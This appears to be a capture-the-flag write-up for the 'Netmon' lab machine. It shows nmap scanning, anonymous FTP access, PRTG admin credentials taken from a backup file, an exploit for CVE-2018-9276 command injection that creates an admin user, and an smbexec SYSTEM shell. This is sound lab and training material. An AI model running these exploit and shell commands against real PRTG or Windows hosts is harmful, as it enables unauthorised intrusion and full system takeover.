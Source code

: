# Netmon

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.152

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## PRTG Network Monitor (NETMON)
![prtg](./screenshots/prtg.png)

## Anonymous FTP
```
$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:cpt): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
```

## The User Flag
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos

---

$ cat ftp/user.txt 
dd58ce67b49e15105e88096c8d9255a5
```

## DB Credential in PRTG Backup Configuration File
PRTG backup configuration is located in `/ProgramData/Paessler/PRTG Network Monitor/`. The file's name is `PRTG Configuration.old.bak`.

```
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

## PRTG Admin Login
Used `prtgadmin: PrTg@dmin2018` to login in as the PRTG admin.

![prtg_admin](./screenshots/prtg_admin.png)

## RCE as Privileged User
The current version (18.1.37.13946) of PRTG is vulnerable to `OS command injection`.

`CVE-2018-9276`

https://www.exploit-db.com/exploits/46527 can be used to exploit the vulnerability.

```
bash exploit.sh -u http://10.10.10.152 -c "***"

[*] file created 
[*] sending notification wait....

[*] adding a new user 'pentest' with password 'P3nT3st' 
[*] sending notification wait....

[*] adding a user pentest to the administrators group 
[*] sending notification wait....


[*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```
$ sudo smbexec.py 'pentest:P3nT3st!@10.10.10.152'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## The Root Flag
```
C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 684B-9CE8

 Directory of c:\users\administrator\desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
02/03/2019  12:35 AM                33 root.txt
               1 File(s)             33 bytes
               2 Dir(s)  12,060,561,408 bytes free

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
3018977fb944bf1878f75b879fba67cc
```
